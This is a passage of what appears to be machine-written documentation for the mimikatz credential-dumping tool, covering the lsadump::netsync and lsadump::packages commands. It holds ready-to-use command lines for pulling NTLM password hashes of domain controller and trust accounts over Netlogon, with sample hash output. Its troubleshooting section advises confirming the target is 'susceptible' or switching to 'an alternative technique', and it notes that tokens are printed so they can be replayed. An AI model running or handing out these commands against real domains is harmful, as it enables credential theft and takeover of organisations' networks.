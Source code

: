 RPC connection modifiers (`/remote`, `/protseq`, `/service`, `/endpoint`, `/noauth`, `/ntlm`,
`/kerberos`, `/negotiate`, `/null`, `/authuser`, `/authdomain`, `/authpassword`) are also available
through the shared helper when finer control over the transport is needed.【F:mimikatz/modules/kuhl_m_lsadump.c†L2013-L2073】【F:modules/rpc/kull_m_rpc.c†L147-L215】

### Example usage
* Retrieve the password history for a domain controller account:
  ```
  mimikatz # lsadump::netsync /dc:dc01.corp.local /user:CORP\dc01$ /ntlm:1f9a...
  ```
  Example output:
  ```
  SecureChannelType : ServerSecureChannel
  Current NTLM      : 4a5e3cfa2b4b8d6571f0d8ad2a1c3f40
  Previous NTLM     : 7c8d5e2f8a4d9c6b1e0fdd2ca5b1c4d2
  ```
* Query a trust account instead of the authenticating account:
  ```
  mimikatz # lsadump::netsync /dc:dc01.corp.local /user:CORP\dc01$ /ntlm:1f9a... /account:CONTOSO$
  ```

### Potential errors and troubleshooting
* **`STATUS_NOT_SUPPORTED`** – Some patched domain controllers block the vulnerable Netlogon flow.
  Ensure the target is susceptible or use an alternative technique.
* **`NetlogonComputeServerDigest` mismatch** – Indicates the supplied `/ntlm` hash is wrong. Confirm
  the machine password and ensure no trailing newline was copied.
* **RPC transport errors** – If `/remote` or other modifiers are used incorrectly, fall back to the
  default settings or specify `/protseq:ncacn_ip_tcp` explicitly.


## `lsadump::packages`
Enumerates installed SSPI packages and optionally runs an outbound authentication sequence to obtain the first token buffer.

| Argument | Purpose | Why use it |
| --- | --- | --- |
| `[target]` | Optional SPN or target name passed to `InitializeSecurityContext`. | Use to observe the initial blob a package sends during authentication. |

Each package is listed with capabilities, maximum token size, RPC ID, and version. When a target is provided the command acquires outbound credentials and prints the produced token in hexadecimal so it can be replayed or analyzed.【F:mimikatz/modules/kuhl_m_lsadump.c†L2356-L2393】

### Example usage
* Enumerate installed packages only:
  ```
  mimikatz # lsadump::packages
  ```
  Example output (truncated):
  ```
    mimikatz # lsadump::packages
    Name        : Negotiate
    Description : Microsoft Package Negotiator
    Capabilities: 00883bb3 ( INTEGRITY ; PRIVACY ; CONNECTION ; MULTI_REQUIRED ; EXT
    ENDED_ERROR ; IMPERSONATION ; ACCEPT_WIN32_NAME ; NEGOTIABLE ; GSS_COMPATIBLE ;
    LOGON ; RESTRICTED_TOKENS ; APPCONTAINER_CHECKS ; )
    MaxToken    : 48256
    RPCID       : 0x0009 (9)
    Version     : 1

    Name        : Kerberos
    Description : Microsoft Kerberos V1.0
    Capabilities: 028f3bbf ( INTEGRITY ; PRIVACY ; TOKEN_ONLY ; DATAGRAM ; CONNECTIO
    N ; MULTI_REQUIRED ; EXTENDED_ERROR ; IMPERSONATION ; ACCEPT_WIN32_NAME ; NEGOTI
    ABLE ; GSS_COMPATIBLE ; LOGON ; MUTUAL_AUTH ; DELEGATION ; READONLY_WITH_CHECKSU
  ```